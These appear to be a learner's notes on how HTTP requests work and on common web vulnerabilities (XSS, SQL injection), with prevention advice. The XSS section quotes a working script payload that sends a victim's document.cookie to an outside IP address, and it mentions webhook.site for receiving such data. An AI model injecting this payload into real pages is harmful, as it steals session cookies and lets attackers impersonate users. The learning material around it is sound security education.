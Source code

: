 # HTTP request 

1. URL
- protocol: https
- domain name 
- port number
- path to resource: after /
- value of query parameter "num"
- anchor

2. Browser looks up IP address corresponding to the domain name using DNS
3. Establishes a connection to the web server using the IP address and web server
4. Make HTTP request
- HTTP method: GET or POST
- Path to resource and parameters

## Request method 
### GET
- retrieves the resource
- pulling information from database
- entering the URL on the browser should not modify (eg delete, add data) contents on the server 

### POST
- sends data (eg name of file, json xml) to the resource for the server to do something with 
- include data to be sent

### other methods 
- PUT
- DELETER
- HEAD
- etc

## HTTP Headers
- allows client and server to define additional info about HTTP request / response

- host: identifies domain and port where the request is being sent 
- content-length: size of message body in bytes, so that server knows when to stop processing the request 
- referer[sic]: identifies webpage that requested the resource 
- user-agent: identifies the client software (e.g Chrome, Firefox) that made the request 
- cookie: any cookies the client has that are associated with the server

## Over to the server 
- server receives HTTP request, parses it

## Retrieving data
- can be stored on file system or database
- types: relational, document-oriented, graph etc
- language to query relational databases: Structured Query Language (SQL)
- different tables linked together by common data

## Presenting data
- after the data is retrieved, it needs to be assembled into a format the browser can display
- HTML (tags, attributes, content)
- HTML by itself is static. cannot dynamically make things appear and disappear, change info real-time. (eg have to click to get to the next page instead of the page changing real-time as you type eg in the search bar)

## JavaScript
- scripting language to augment webpages with dynamic behaviour
- can be included within HTML or from an external source
```JavaScript
<script src="/path/to/script.js"></script> // run script from external URL on the page 
```

## Delivering the response 
- send the response to the client (browser)
- status code to indicate if it is successful: `HTTP/1.1 200 OK`
- response headers
- response body

### HTTP status codes
- 200 OK

codes begin with 4: client's fault 
- 404 Not Found
- 403 Forbidden (no permission to access)
- 400 Bad Request (incorrect way of making the request)

codes begin with 5: server's end, eg programming error, script not working properly, cannot conenct to databse 
- 500 Internal Server Error 

## Back to the browser 
- browser receives HTML and parses it
- renders page based on http

## Play with HTTP requests using Burp Suite


# Cross-site scripting (XSS) 
https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md 
`<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>`

## Cookies 
- how would you design a system where multiple webpages need authentication with a common set of credentials?
- information sent by browser to server, and server will send the info related to the site
- `setCookies` header
- once issued with a cookie, the browser will send whatever request you make with the server
- if someone takes your cookies, someone can use your identity 

1. HTTP request from client (browser) to server (website)
2. HTTP response + **Set-Cookies** from server to client
3. HTTP request + **Cookies (SessionID)** from client to server
4. HTTP response from server to client 

## Making HTTP requests in JavaScript
- **Fetch API** (old way: xml http requests) for JavaScript to pull information from websites to dynamically update a page
``` JavaScript
response = awaits fetch("/secret");  // background request to get secret page and store in response. (successful authentication + send cookies --> fetch is possible) 
text = await response.text();        // get response text 
console.log(text);
```

```JavaScript
fetch("https://gmail.com")
```
- Not possible
  
## Same origin (scheme + host + port) policy 
- webpages only permitted to access data from other sources if they have the same origin 
- eg https + google.com + 403
- allows attacker to introduce malicious JavaScript within the same origin
- 
- **webhook.site** gives you an URL to infiltrate

## Prevent cross-site scripting 
- fliter user input when it arrives at the server. reject anything that does not conform to expected input
- encode data (eg HTML encoding[https://emn178.github.io/online-tools/html_encode.html], JavaScript encoding) on output, so browser knows which part of html to not execute. using wrong encoding scheme for the context can lead to bypasses 
- set sensitive cookies to HttpOnly so they are not accessible directly by JavaScript. prevents stealing the cookie directly, but still lets attackers do what they want as the user under the origin
- Content Security Policy (http header in http response): tell the browser that browser should only execute certain scripts (eg loaded remotely from particular domains / follow particular format / have particular content)

# SQL injection
- web applications will often have to retrieve data from a database, which often depends on data provided by the user eg retrieving product's details based on ID supplied by user, logging in with username and password
- https://github.com/swisskyrepo/PayloadsAllTheThings

## how to prevent SQL injection 
- root cause of SQL injection is concatenating user input directly with user commands. SQL server cannot tell which is which
- solution: parameterised queries; put placeholders in the query where user data should go and pass in the user data separately at execution time. this way server can differentiate between the two

# Command injection 


# Path traversal 






